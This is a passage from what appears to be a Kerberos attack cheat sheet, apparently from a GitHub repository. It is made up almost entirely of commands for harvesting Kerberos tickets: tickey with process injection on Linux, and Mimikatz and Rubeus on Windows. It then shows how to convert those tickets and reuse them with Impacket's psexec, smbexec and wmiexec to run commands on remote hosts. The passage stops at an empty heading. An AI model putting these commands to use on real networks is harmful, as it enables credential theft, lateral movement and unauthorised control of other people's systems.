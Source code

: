 Check type and location of tickets:

```shell
grep default_ccache_name /etc/krb5.conf
```
If none return, default is FILE:/tmp/krb5cc_%{uid}.

In case of file tickets, you can copy-paste (if you have permissions) for use them.

In case of being *KEYRING* tickets, you can use [tickey](https://github.com/TarlogicSecurity/tickey) to get them:

```shell
# To dump current user tickets, if root, try to dump them all by injecting in other user processes
# to inject, copy tickey in a reachable folder by all users
cp tickey /tmp/tickey
/tmp/tickey -i
```

### Harvest tickets from Windows

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):
```shell
mimikatz # sekurlsa::tickets /export
```

With [Rubeus](https://github.com/GhostPack/Rubeus) in Powershell:
```shell
.\Rubeus dump

# After dump with Rubeus tickets in base64, to write the in a file
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>"))
```


To convert tickets between Linux/Windows format with [ticket_converter.py](https://github.com/Zer1t0/ticket_converter):

```
python ticket_converter.py ticket.kirbi ticket.ccache
python ticket_converter.py ticket.ccache ticket.kirbi
```

### Using ticket in Linux:

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:
```shell
# Set the ticket for impacket use
export KRB5CCNAME=<TGT_ccache_file_path>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```


### Using ticket in Windows

